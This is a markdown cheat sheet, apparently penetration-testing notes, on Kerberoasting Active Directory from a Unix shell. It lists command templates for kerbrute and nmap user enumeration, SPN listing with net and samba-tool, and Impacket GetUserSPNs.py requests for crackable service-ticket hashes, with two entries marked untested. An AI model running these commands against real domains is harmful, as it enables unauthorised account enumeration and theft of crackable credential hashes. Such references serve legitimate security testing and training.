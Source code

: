 # Unix Shell

Search Tag(s): #kerberoasting

## 01 - Enumerate Users

### 1.1 - Kerbrute

Enumerate users against the active directory.

```
$ kerbrute userenum [--dc <IP>] -d <domain> users.lst [-t 64]
```

### 1.2 - Network Mapper

```
$ nmap -p 88 -Pn --script=krb5-enum-users --script-args krb5-enum-users.realm="<domain>",userdb=users.lst <IP>
```

## 02 - Enumerate SPN accounts

### 2.1 - `net`

TODO: Test it

```
$ net ads setspn setspn list [machine] -U "[<domain>/]<username>%<password>" -S <IP>

$ net ads setspn setspn list [machine] -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

### 2.2 - Impacket

Request a Kerberos 5 TGS-REP etype 23 hash from an SPN user account.

```
$ GetUserSPNs.py -request -dc-ip <IP> <domain>/<username>:"<password>"

$ GetUserSPNs.py -request -dc-ip <IP> <domain>/<username> -hashes :<nt_hash>

$ GetUserSPNs.py -request -dc-ip <IP> <domain> -usersfile users.lst
```

### 2.3 - `samba-tool`

TODO: Test it

```
$ samba-tool spn list
```

---
## References

- [Impacket](https://github.com/fortra/impacket)

- [Kerbrute](https://github.com/ropnop/kerbrute)

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

- [Certcube: Kerberoasting Common Tools](https://blog.certcube.com/kerberoasting-common-tools/)

- [Pentesting Kerberos 88](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)
